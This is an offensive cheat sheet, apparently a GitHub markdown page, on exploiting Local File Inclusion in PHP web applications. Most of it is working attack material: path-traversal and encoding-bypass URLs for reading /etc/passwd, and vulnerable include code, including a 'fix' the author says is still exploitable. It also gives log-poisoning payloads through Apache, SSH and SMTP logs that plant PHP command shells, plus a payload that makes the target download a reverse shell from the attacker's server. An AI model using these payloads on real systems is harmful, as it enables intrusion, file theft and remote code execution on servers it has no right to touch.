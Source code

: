 # Local File Inclusion/lfi
## @Author : M3tr1c_r00t
<li>
  <ul>An lfi is a web vulnerability which allows one to be able to view the servers files or even include other files within the root folder of the web server.
  </ul>
  <ul>An lfi can lead to information disclosure, cross-site scripting(XSS) and even rce(remote code execution).
  </ul>
  <ul>
  An lfi can occur when a server has been poorly configured or no proper sanitization practices are being observed.
  </ul>
  <ul>
  Lfi's usually occur when an application uses a path to a file as input.
  </ul>
  <ul>
  The server treats the input as trusted and is then executed.
  </ul>
  <ul>
  Other lfi's gives attackers the abilities to upload files into the server.
  </ul>
</li>

For example;
```
https://example-site.com/?module=contact.php
```
As an attacker, we can change the module part, as it being used as a path to the contact.php and try to view the internal files...

```
https://example-site.com/?module=/etc/passwd
```
### LFI Attacks

#### We can test for lfi vulnerable code by using "../" a couple of times
```
https://example-site.com/?module=../../../../etc/passwd
```
The code example for this can be
```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>  

#or

<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>
```
##### This vuln can be fixed with the below code tho its still vulnerable...

```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```

#### bypass of: $_GET['param']."php"
In some servers, they add a definite file extension to prevent exploitation....
<br>
We can exploit this by adding a null byte in url encoding:
<br>
This only applies to php version 5.3.4 and below...
```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
```
<br>

#### In other cases, we can use url encoding...
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
#### If that doesn't work, try double url encoding...
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```


### Exploiting the LFI...
After you've already gotten your lfi, some keep files you can look out for include:

```
/var/log/apache2/access.log // if the server is apache
/var/log/auth.log //for ssh log poisoning
/var/log/mail.log //for smtp log poisonig

```
#### for Apache log poisoning...
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 



Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR

python -m SimpleHTTPServer 9000 



Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 


file_put_contents('shell.php')                                // What it will be saved locally on the target
file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

#### SSh log poisoning
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 



Payload: ssh <?php system($_GET['c']);?>@<target_ip>


Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```
#### SMTP log poisoning
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 



telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id
```



